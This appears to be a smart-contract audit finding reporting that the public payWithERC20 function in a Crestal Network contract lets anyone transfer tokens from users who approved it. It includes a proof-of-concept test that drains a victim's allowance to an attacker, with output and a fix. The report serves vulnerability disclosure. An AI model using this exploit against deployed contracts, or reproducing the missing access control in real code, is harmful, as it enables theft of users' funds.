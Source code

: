 Warm Golden Turkey

High

# all allowances can be steal

### Summary

lacks of access control in function payWithERC20 allow to malicius user can steal funds to user who approved contract blueprintv5.sol

### Root Cause

```javascript
  function payWithERC20(
        address erc20TokenAddress, 
        uint256 amount, 
        address fromAddress, 
        address toAddress
        ) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
}
```
ass can see the function [payWithERC20 ](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32)lacks of any access control to avoid that malicius user transfer funds from other user  

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

N/A

### Impact

users can loss funds 

### PoC

run this test 
```javascript 
function test_StealAllowances() public {
        uint256 amount = 100 * 10 ** 18;
        mockToken.mint(user, amount);// mint to user
        console.log("balance before user;",mockToken.balanceOf(user));
        console.log("balance before attacker;",mockToken.balanceOf(attacker));

       vm.prank(user);
       mockToken.approve(address(blueprint), amount);

       vm.prank(attacker);
       blueprint.payWithERC20(address(mockToken), amount, user, attacker);

       console.log("balance after user;",mockToken.balanceOf(user));
       console.log("balance after attacker;",mockToken.balanceOf(attacker));
    }
```
the result

 balance before user; 100000000000000000000
  balance before attacker; 0
  balance after user; 0
  balance after attacker; 100000000000000000000


### Mitigation

change the function from public to internal 
```Diff
  function payWithERC20(
        address erc20TokenAddress, 
        uint256 amount, 
        address fromAddress, 
        address toAddress
-        ) public {
+      ) internal{
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```